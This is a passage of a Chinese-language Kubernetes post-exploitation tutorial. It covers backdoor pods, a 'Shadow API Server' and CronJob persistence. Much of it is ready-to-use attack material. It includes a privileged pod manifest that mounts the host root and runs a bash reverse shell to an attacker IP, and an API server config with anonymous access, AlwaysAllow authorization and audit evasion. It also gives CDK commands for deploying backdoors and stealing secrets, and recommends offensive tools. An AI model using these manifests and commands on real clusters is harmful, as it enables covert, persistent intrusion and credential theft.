        args: ["-c", "bash -i >& /dev/tcp/192.168.17.164/4444 0>&1"]
        securityContext:
          privileged: true      #特权模式
        volumeMounts:
        - mountPath: /host
          name: host-root
      volumes:
      - name: host-root
        hostPath:
          path: /
          type: Directory
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143226-983ed94e-7492-1.png)  
Step 2：使用kubectl来创建后门Pod

```plain
#创建
kubectl create -f dep.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143242-a1edd04e-7492-1.png)  
Step 3：成功反弹shell回来，且为节点的shell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143252-a7a1dbf2-7492-1.png)  
Step 4：查看当前权限发现属于特权模式

```plain
cat /proc/self/status | grep CapEff
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143308-b1540c24-7492-1.png)  
Step 6：之后切换至host目录下可以看到成功挂载宿主机目录

```plain
cd host
cd home
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143328-bd83a824-7492-1.png)  
Step 7：删除pod

```plain
kubectl delete -f dep.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143346-c7f56450-7492-1.png)

#### 工具实现

```plain
./cdk run k8s-backdoor-daemonset (default|anonymous|<service-account-token-path>) <image>

Request Options:
default: connect API server with pod's default service account token
anonymous: connect API server with user system:anonymous
<service-account-token-path>: connect API server with user-specified service account token.

Exploit Options:
<image>: your backdoor image (you can upload it to dockerhub before)
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143432-e3ab62b2-7492-1.png)

### Shadow API利用

#### 基本概述

Shadow API Server攻击技术由安全研究人员Ian Coldwater在"Advanced Persistence Threats: The Future of Kubernetes Attacks"中首次提出，该攻击手法旨在创建一种针对K8S集群的隐蔽持续控制通道  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143542-0d27a4de-7493-1.png)  
Shadow API Server攻击技术的思路是创建一个具有API Server功能的Pod，后续命令通过新的"Shadow API Server"下发，新的API Server创建时可以开放更大权限，并放弃采集审计日志，且不影响原有API-Server功能，日志不会被原有API-Server记录，从而达到隐蔽性和持久控制目的

#### 手动实现

Step 1：首先查看kube-system命名空间下的kube-apiserver信息

```plain
kubectl get pods -n kube-system | grep kube-apiserver
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143604-1a52e7f4-7493-1.png)  
Step 2：查看kube-apiserver-master对应的YAML文件

```plain
kubectl get pods -n kube-system kube-apiserver-master -o yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143625-2683002c-7493-1.png)  
Step 3：复制上述YAML内容并进行如下修改

```plain
#更新配置
--allow-privileged=true
--insecure-port=6445
--insecure-bind-address=0.0.0.0
--secure-port=6445
--anonymous-auth=true
--authorization-mode=AlwaysAllow

#删除子项
status
metadata.selfLink
metadata.uid
metadata.annotations
metadata.resourceVersion
metadata.creationTimestamp
spec.tolerations
```

最终配置文件如下：

```plain
apiVersion: v1
kind: Pod
metadata:
  labels:
    component: kube-apiserver-shadow
    tier: control-plane
  name: kube-apiserver-shadow
  namespace: kube-system
  ownerReferences:
  - apiVersion: v1
    controller: true
    kind: Node
    name: master
    uid: a8b24753-c6b2-477e-9884-03784cf52afb
spec:
  containers:
  - command:
    - kube-apiserver
    - --advertise-address=192.168.17.144
    - --allow-privileged=true
    - --anonymous-auth=true
    - --authorization-mode=AlwaysAllow
    - --client-ca-file=/etc/kubernetes/pki/ca.crt
    - --enable-admission-plugins=NodeRestriction
    - --enable-bootstrap-token-auth=true
    - --etcd-cafile=/etc/kubernetes/pki/etcd/ca.crt
    - --etcd-certfile=/etc/kubernetes/pki/apiserver-etcd-client.crt
    - --etcd-keyfile=/etc/kubernetes/pki/apiserver-etcd-client.key
    - --etcd-servers=https://127.0.0.1:2379
    - --insecure-port=9443
    - --insecure-bind-address=0.0.0.0
    - --kubelet-client-certificate=/etc/kubernetes/pki/apiserver-kubelet-client.crt
    - --kubelet-client-key=/etc/kubernetes/pki/apiserver-kubelet-client.key
    - --kubelet-preferred-address-types=InternalIP,ExternalIP,Hostname
    - --proxy-client-cert-file=/etc/kubernetes/pki/front-proxy-client.crt
    - --proxy-client-key-file=/etc/kubernetes/pki/front-proxy-client.key
    - --requestheader-allowed-names=front-proxy-client
    - --requestheader-client-ca-file=/etc/kubernetes/pki/front-proxy-ca.crt
    - --requestheader-extra-headers-prefix=X-Remote-Extra-
    - --requestheader-group-headers=X-Remote-Group
    - --requestheader-username-headers=X-Remote-User
    - --secure-port=9444
    - --service-account-key-file=/etc/kubernetes/pki/sa.pub
    - --service-cluster-ip-range=192.96.0.0/12
    - --tls-cert-file=/etc/kubernetes/pki/apiserver.crt
    - --tls-private-key-file=/etc/kubernetes/pki/apiserver.key
    image: registry.aliyuncs.com/google_containers/kube-apiserver:v1.17.4
    imagePullPolicy: IfNotPresent
    livenessProbe:
      failureThreshold: 8
      httpGet:
        host: 192.168.17.144
        path: /healthz
        port: 9443
        scheme: HTTPS
      initialDelaySeconds: 15
      periodSeconds: 10
      successThreshold: 1
      timeoutSeconds: 15
    name: kube-apiserver
    resources:
      requests:
        cpu: 250m
    terminationMessagePath: /dev/termination-log
    terminationMessagePolicy: File
    volumeMounts:
    - mountPath: /etc/ssl/certs
      name: ca-certs
      readOnly: true
    - mountPath: /etc/pki
      name: etc-pki
      readOnly: true
    - mountPath: /etc/kubernetes/pki
      name: k8s-certs
      readOnly: true
  dnsPolicy: ClusterFirst
  enableServiceLinks: true
  hostNetwork: true
  nodeName: master
  priority: 2000000000
  priorityClassName: system-cluster-critical
  restartPolicy: Always
  schedulerName: default-scheduler
  securityContext: {}
  terminationGracePeriodSeconds: 30
  volumes:
  - hostPath:
      path: /etc/ssl/certs
      type: DirectoryOrCreate
    name: ca-certs
  - hostPath:
      path: /etc/pki
      type: DirectoryOrCreate
    name: etc-pki
  - hostPath:
      path: /etc/kubernetes/pki
      type: DirectoryOrCreate
    name: k8s-certs
```

Step 4：创建一个附加由API Server功能的pod

```plain
kubectl create -f api.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143803-615a65aa-7493-1.png)  
Step 5：端口服务查看  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143816-68f5296c-7493-1.png)  
Step 6：在浏览器中实现未授权访问测试  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143832-728c7c3c-7493-1.png)  
Step 7：在命令行中实现未授权访问

```plain
kubectl -s http://192.168.17.144:9443 get nodes
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143848-7bca1b1a-7493-1.png)

#### 工具实现

Step 1：在Pod中使用CDK寻找脆弱点

```plain
cdk evaluate
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143918-8e200892-7493-1.png)  
Step 2：发现当前Pod内置Service account具有高权限，接下来使用EXP部署Shadow API Server

```plain
cdk run k8s-shadow-apiserver default
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143937-9939be26-7493-1.png)  
Step 3：部署成功之后，后续渗透操作全部由新的Shadow API Server代理，由于打开了无鉴权端口，任何pod均可直接向Shadow API Server发起请求管理集群  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027143949-a01a2802-7493-1.png)  
Step 4：获取K8s的Secrets凭据信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144000-a725e4ce-7493-1.png)

### K8s CronJob

#### 基本概述

CronJob用于执行周期性的动作，例如:备份、报告生成等，攻击者可以利用此功能持久化

#### 具体实现

Step 1：创建cron.yaml文件

```plain
apiVersion: batch/v1beta1
kind: CronJob                    #使用CronJob对象
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"        #每分钟执行一次
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: alpine
            imagePullPolicy: IfNotPresent
            command:
            - /bin/bash
            - -c
            - #反弹Shell或者下载并执行木马
          restartPolicy: OnFailure
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144042-bfe3c7ce-7493-1.png)  
Step 2：部署pod

```plain
kubectl create -f cron.yaml
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144059-ca058eb8-7493-1.png)  
Step 3：之后再监听端并未获取到shell  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144240-068d51ea-7494-1.png)  
随后发现未反弹回shell的原因是因为IP网段问题，相关测试如下  
Step 1：测试yaml文件

```plain
apiVersion: batch/v1beta1
kind: CronJob
metadata:
  name: hello
spec:
  schedule: "*/1 * * * *"
  jobTemplate:
    spec:
      template:
        spec:
          containers:
          - name: hello
            image: busybox
            args:
            - /bin/sh
            - -c
            - ifconfig; echo Hello aliang
          restartPolicy: OnFailure
```

Step 2：部署后查看logs  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144405-394634ee-7494-1.png)

#### 工具实现

使用方法：

```plain
cdk run k8s-cronjob (default|anonymous|<service-account-token-path>) (min|hour|day|<cron-expr>) <image> <args>

Request Options:
default: connect API server with pod's default service account token
anonymous: connect API server with user system:anonymous
<service-account-token-path>: connect API server with user-specified service account token.

Cron Options:
min: deploy cronjob with schedule "* * * * *"
hour: deploy cronjob with schedule "0 * * * *"
day: deploy cronjob with schedule "0 0 * * *"
<cron-expr>: your custom cron expression

Exploit Options:
<image>: your backdoor image (you can upload it to dockerhub before)
<args>: your custom shell command which will run when container creates
```

使用实例：

```plain
./cdk run k8s-cronjob default min alpine "echo hellow;echo cronjob"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144443-4fe50482-7494-1.png)  
执行之后：

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144454-55ecd1d4-7494-1.png)

## 工具推荐

### Nebula

Nebula是一个云和DevOps渗透测试框架，它为每个提供者和每个功能构建了模块，截至 2021年4月，它仅涵盖AWS，但目前是一个正在进行的项目，有望继续发展以测试GCP、Azure、Kubernetes、Docker或Ansible、Terraform、Chef等自动化引擎  
[https://github.com/gl4ssesbo1/Nebula](https://github.com/gl4ssesbo1/Nebula)

[](https://xzfile.aliyuncs.com/media/upload/picture/20231027145025-1b2eecd4-7495-1.png)

### k0otkit

k0otkit是一种通用的后渗透技术，可用于对Kubernetes集群的渗透，攻击者可以使用k0otkit快速、隐蔽和连续的方式(反向shell)操作目标Kubernetes集群中的所有节点，K0otkit使用到的技术主要有以下几个：

-   kube-proxy镜像(就地取材)
-   动态容器注入(高隐蔽性)
-   Meterpreter(流量加密)
-   无文件攻击(高隐蔽性)

DaemonSet和Secret资源(快速持续反弹、资源分离)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027145158-52b182de-7495-1.png)

### CDK Tools

CDK是一款为容器环境定制的渗透测试工具，在已攻陷的容器内部提供零依赖的常用命令及PoC/EXP，集成Docker/K8s场景特有的逃逸、横向移动、持久化利用方式，插件化管理  
[https://github.com/cdk-team/CDK](https://github.com/cdk-team/CDK)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144752-c01c8022-7494-1.png)

### Kubesploit:

Kubesploit是一个功能强大的跨平台后渗透漏洞利用HTTP/2命令&控制服务器和代理工具，基于Merlin项目实现其功能，主要针对的是容器化环境的安全问题  
[https://github.com/cyberark/kubesploit](https://github.com/cyberark/kubesploit)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231027144813-cd15504c-7494-1.png)

## 参考链接

[https://youtu.be/GupI5nUgQ9I](https://youtu.be/GupI5nUgQ9I)  
[https://capsule8.com/blog/practical-container-escape-exercise/](https://capsule8.com/blog/practical-container-escape-exercise/)  
[https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html](https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html)  
[https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation](https://www.cyberark.com/resources/threat-research-blog/the-route-to-root-container-escape-using-kernel-exploitation)  
[https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/writeup.md#escaping-the-container-and-popping-a-root-shell](https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/writeup.md#escaping-the-container-and-popping-a-root-shell)  
[https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html)  
[https://github.com/bsauce/kernel-exploit-factory/tree/main/CVE-2021-31440](https://github.com/bsauce/kernel-exploit-factory/tree/main/CVE-2021-31440)  
[https://man7.org/linux/man-pages/man5/core.5.html](https://man7.org/linux/man-pages/man5/core.5.html)  
[https://github.com/Metarget/metarget/tree/master/writeups\_cnv/mount-host-procfs](https://github.com/Metarget/metarget/tree/master/writeups_cnv/mount-host-procfs)
